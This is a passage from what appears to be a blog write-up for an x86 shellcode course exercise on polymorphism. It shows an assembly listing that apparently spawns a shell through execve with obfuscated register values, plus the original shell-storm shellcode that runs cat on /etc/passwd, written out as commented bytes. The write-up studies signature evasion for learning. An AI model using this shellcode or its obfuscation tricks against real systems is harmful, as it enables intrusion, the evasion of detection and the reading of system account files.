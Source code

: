 ```
    mov edi, 0x68732f1f
    mov edx, 0x6e69621f
a:
    inc edi
    inc edx
    loop a
    push edi
    push edx

    mov ebx, esp
    mov ecx, esi
    mov edx, esi
    mov al, 0xb
    int 0x80
    inc esi
    int 0x80
```
![shellcode2](/assets/images/SLAE_6/2.JPG)

#### Shellcode 3:

The last shellcode will invoke execve once more, this time to cat the contents of etc/passwd.

[http://shell-storm.org/shellcode/files/shellcode-571.php](http://shell-storm.org/shellcode/files/shellcode-571.php)

Quite a few additions and changes have been made, and we just scraped by with a polymorphic version that is 21 bytes longer and 148.84% larger. I certainly could have reduced the size by taking a different route, however wanted to be creative with how I changed the code and so I opted to use up my 150% size allowance.

The most noticeable is that the original strings containing commands as arguments have been either reduced or increased, with loop functions bringing them back to what they should be while stored in registers, before before pushed to the stack.


##### Original: 
`Shellcode length: 43`
```
const char shellcode[]="\x31\xc0" // xorl %eax,%eax
"\x99" // cdq
"\x52" // push edx
"\x68\x2f\x63\x61\x74" // push dword 0x7461632f
"\x68\x2f\x62\x69\x6e" // push dword 0x6e69622f
"\x89\xe3" // mov ebx,esp
"\x52" // push edx
"\x68\x73\x73\x77\x64" // pu sh dword 0x64777373
"\x68\x2f\x2f\x70\x61" // push dword 0x61702f2f
"\x68\x2f\x65\x74\x63" // push dword 0x6374652f
"\x89\xe1" // mov ecx,esp
"\xb0\x0b" // mov $0xb,%al
"\x52" // push edx
"\x51" // push ecx
"\x53" // push ebx
"\x89\xe1" // mov ecx,esp
"\xcd\x80" ; // int 80h
```

